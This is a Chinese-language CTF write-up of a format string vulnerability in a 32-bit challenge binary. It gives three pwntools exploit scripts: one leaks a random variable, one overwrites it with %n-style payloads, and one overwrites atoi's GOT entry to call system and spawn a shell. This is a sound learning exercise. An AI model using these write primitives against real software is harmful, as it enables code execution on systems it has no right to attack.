 # 知识点

格式化字符串漏洞



# 题目分析

1. 查看保护情况，32位程序，开启Canary和NX保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，梳理程序流程，输入的数字和随机数相同就会触发system("/bin/sh")。

   发现存在格式化字符串漏洞，有两种利用思路：

   - 泄漏随机数变量，然后输入该随机数即可。
   - 修改该随机数变量，然后输入该随机数即可。

   <img src="./asset/ida1.png" alt="ida1" style="zoom: 50%;" />

3. 首先泄漏格式化字符串到name变量的距离，通过观察打印的内容得知，距离为10。

   ```bash
   root@ubuntu:~/Desktop# ./pwn
   your name:AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
   Hello,AAAA-0xff8e1ff8-0x63-(nil)-0xff8e201e-0x3-0xc2-0xf7e6a79b-0xff8e201e-0xff8e211c-0x41414141-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70
   ��D���� ��your passwd:
   ```

   

# Exp

## 方法一：泄漏随机数变量

此方法的原理是利用了格式化字符串泄露任意地址数据，%s解析地址对应的数据。i$解析第i个变量。

```python
#!/usr/bin/python2

from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./pwn')

random = 0x0804C044

payload = p32(random) + '%10$s'
io.sendafter('your name:', payload)

io.recvuntil('\x08')
num = int(u32(io.recv(4)))
success('random_num = ' + str(num))

io.send(str(num))

io.interactive()
```



## 方法二：修改随机数变量

此方法的原理是利用了格式化字符串任意地址写的漏洞。%i$n表示将第i个地址存储的数据修改为字符串已打印的长度。

i$表示第i个变量，lln表示修改八个字节，n表示修改四个字节，hn表示修改两个字节，hhn表示修改一个字节。

其中：

- payload1是将地址放到payload后面，这样的好处是可以把数据改成很小的数。
- payload2是将地址放到payload前面，常规做法。
- payload3是利用pwntools提供的fmtstr_payload函数进行自动payload生成。

```python
#!/usr/bin/python2

from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./pwn')

random = 0x0804C044

payload1 = 'AAAA%16$n%17$n%18$n%19$n' + p32(random) + p32(random + 1) + p32(random + 2) + p32(random + 3)
payload2 = p32(random) + p32(random + 1) + p32(random + 2) + p32(random + 3) + '%10$hhn%11$hhn%12$hhn%13$hhn'
payload3 = fmtstr_payload(10, {random:0x1111})
io.sendafter('your name:', payload3)

io.send(str(0x1111))

io.interactive()
```



## 方法三：修改atoi的got表地址

由于保护情况为Partial RELRO，对got表有写权限，可以修改got表地址。

因此，我们可以直接将atoi的got表地址修改为system函数的plt表地址，程序再次read数据执行atoi时即可执行system函数。

```python
#!/usr/bin/python2

from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./pwn')
elf = ELF('./pwn')

atoi = elf.got['atoi']
system = elf.plt['system']

payload = fmtstr_payload(10, {atoi:system})
io.sendline(payload)

io.interactive()
```

